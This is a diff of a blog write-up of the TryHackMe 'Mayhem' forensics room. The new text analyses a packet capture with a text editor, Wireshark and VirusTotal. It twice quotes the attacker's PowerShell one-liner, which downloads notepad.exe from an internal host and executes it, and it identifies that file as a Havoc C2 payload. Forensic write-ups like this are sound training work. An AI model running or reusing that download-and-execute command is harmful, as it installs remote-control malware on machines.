

Before and after one commit to drackyjr/drackyjr.github.io, a Markdown page: docs/Mahem/index.md, the part around the change printed below. Shown: that part at 90% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/docs/Mahem/index.md
+++ b/docs/Mahem/index.md
@@ -7,29 +7,71 @@ date: 2025-05-21
 **Room Link:** https://tryhackme.com/room/mayhemroom
 ![Extract and download files - showing terminal with unzip command and file listing](/images/logo.png)
 
-## Description
-
-> Beneath the tempest's roar, a quiet grace,
-> Mayhem's beauty in a hidden place.
-> Within the chaos, a paradox unfolds,
-> A tale of beauty, in disorder it molds.
->
-> Click on the **Download Task Files** button at the top of this task. You will be provided with an **evidence.zip** file. Extract the zip file's contents and begin your analysis in order to answer the questions.
->
-> **Note:** Some browsers may detect the file as malicious. The zip file is safe to download with md5 of `a7d64354e4b8798cff6e063449c1e64f`. In general, as a security practice, download the zip and analyze the forensic files on a dedicated virtual machine, and not on your host OS. Always handle such files in isolated, controlled, and secure environments.
 
 ---
 
-## Understanding the Challenge - Simple Breakdown
+#### The First Clue: The Pcap File
 
-**What is Mayhem?**
-- You receive a zip file with network traffic captured from an infected computer
-- Your job is to find what happened and answer 5 questions
-- The attacker used a tool called **Havoc C2** to control the infected computer
+Our journey begins after unzipping the challenge file. Inside, we find a single, intriguing item: `traffic.pcapng`. A packet capture! This is where all the juicy evidence is hiding.
 
-**What you need to find:**
-1. The attacker's user account ID (SID)
-2. An IPv6 address used by the attacker
-3. A username and password created for backdoor access
-4. A file path that was accessed
-5. A flag hidden in the files
+My first instinct, like any totally normal person, was to peek inside with a text editor. Hey, don't judge! Sometimes you find interesting plaintext right away.
+
+```bash
+nvim traffic.pcapng
+```
+
+Before we get too excited, let's do a quick safety check.
+
+```bash
+❯ lsz
+Permissions Size User   Date Modified Name
+.rwxr-xr-x  305k cilgin 15 Nov  2023   traffic.pcapng
+
+~/Downloads via  v3.13.5
+❯ chmod -x traffic.pcapng
+```
+
+Woah there! The file has execute permissions? That's a huge no-no for a data file. We wouldn't want to accidentally _run_ our packet capture, would we? That could be the shortest investigation ever. Let's defuse this tiny, insignificant bomb by removing that permission. Safety first!
+
+This file is probably from NTFS filesystem.
+
+Opening the file reveals some surprisingly readable text amongst the binary mess:
+
+```text
+$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;$65lmAtnzW8 = New-Object System.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);Start-Process -Filepath $LA4rJgSPpx
+
+
+
+GET /install.ps1 HTTP/1.1
+```
+
+Well, well, what do we have here? It looks like our attacker used a PowerShell script (`install.ps1`) to download a file named `notepad.exe`. That seems... incredibly suspicious.
+
+#### Calling in the Big Guns: Wireshark
+
+Reading a `.pcap` file in a text editor is like trying to read a novel through a keyhole. It's time to fire up the proper tool for the job: **Wireshark**.
+
+Using Wireshark's "Export Objects" feature, we can easily extract the `install.ps1` script and the downloaded `notepad.exe` file.
+
+![Desktop View](/assets/img/2025-07-08-TryHackMe-Mayhem/photo1.webp){: width="972" height="589" }
+
+The `install.ps1` script is a nasty one-liner, just like we saw earlier:
+
+```powershell
+$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;$65lmAtnzW8 = New-Object System.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);Start-Process -Filepath $LA4rJgSPpx
+```
+
+Now, about that `notepad.exe`... My malware senses are tingling! Let's send it over to VirusTotal for a second opinion.
+
+[VirusTotal - File - 99784f28e4e95f044d97e402bbf58f369c7c37f49dc5bf48e6b2e706181db3b7](https://www.virustotal.com/gui/file/99784f28e4e95f044d97e402bbf58f369c7c37f49dc5bf48e6b2e706181db3b7)
+
+![Desktop View](/assets/img/2025-07-08-TryHackMe-Mayhem/photo2.webp){: width="972" height="589" }
+
+Bingo! The results are in, and it's lit up like a Christmas tree. VirusTotal confirms our suspicions: this is a malicious payload generated by the **Havoc C2 framework**. Nasty stuff.
+
+[HavocFramework/Havoc: The Havoc Framework](https://github.com/HavocFramework/Havoc)
+
+#### Digging for Strings
+
+VirusTotal is great, but let's do some of our own sleuthing. The `strings` command is a fantastic tool for pulling any readable text out of a binary file. You'd be surprised what secrets you can find.
+
````
Also changed, not shown: other parts of docs/Mahem/index.md (+217 -445 lines).
